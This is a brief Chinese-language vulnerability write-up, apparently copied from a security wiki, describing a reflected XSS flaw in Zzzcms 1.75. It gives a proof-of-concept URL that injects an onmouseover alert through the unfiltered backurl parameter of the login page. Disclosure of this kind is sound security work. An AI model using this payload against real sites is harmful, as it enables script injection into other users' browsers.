 # Zzzcms 1.75 xss 漏洞

> 原文：[http://book.iwonder.run/0day/Zzzcms/2.html](http://book.iwonder.run/0day/Zzzcms/2.html)

## 一、漏洞简介

## 二、漏洞影响

Zzzcms 1.75

## 三、复现过程

```
http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d 
```

该 onmouseover 事件在移动到登录注册时会触发

![image](img/7e4c83f2598a5f900e52284ab8473eb3.png)

对传入的 backurl 并没有做任何防护

![image](img/885ee2dac9ee9056d97c03959d2b56f0.png)

